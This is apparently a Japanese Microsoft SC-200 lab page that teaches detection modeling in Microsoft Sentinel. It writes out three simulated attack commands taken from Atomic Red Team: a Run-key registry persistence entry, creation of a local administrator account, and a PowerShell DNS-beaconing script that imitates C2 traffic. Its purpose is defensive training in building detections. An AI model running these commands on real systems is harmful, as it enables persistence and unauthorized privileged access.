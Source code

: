 ```yaml
---
lab:
  title: 演習 5 - 検出モデリングを理解する
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# <a name="module-7---lab-1---exercise-5---understand-detection-modeling"></a>モジュール 7 - ラボ 1 - 演習 5 - 検出モデリングを理解する

![ラボの概要。](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex4.png)
### <a name="task-1-understand-the-attacks"></a>タスク 1:攻撃を理解する

>**重要:この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃について説明するものにすぎません。 このページをよくお読みください。

攻撃パターンは、オープン ソース プロジェクトに基づいています。 https://github.com/redcanaryco/atomic-red-team


#### <a name="attack-1---persistence-with-registry-key-add"></a>攻撃 1 - レジストリ キーの追加による永続性

攻撃者は、Run レジストリ キーにプログラムを追加します。 これにより、ユーザーがログオンするたびにプログラムが実行されるため、永続化が実現します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### <a name="attack-2---user-add-and-elevate-privilege"></a>攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。 これにより、攻撃者は特権のある別のアカウントでログオンできます。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### <a name="attack-3---dns--c2"></a>攻撃 3 - ドメイン ネーム サービスおよびコマンド & コントロール 

攻撃者は、コマンド & コントロール (C2) サーバーに大量の DNS クエリを送信します。 この目的は、単一ソースのシステムまたは単一ターゲットのドメインからの DNS クエリの数に対して、しきい値ベースの検出をトリガーすることです。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### <a name="task-2-understand-detection-modeling"></a>タスク 2:検出モデリングの理解

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。 ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。


KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

>**注:**  一部のアラートは、ラボの目的のためだけに、より短い時間枠でトリガーされます。

## <a name="proceed-to-exercise-6"></a>演習 6 に進みます

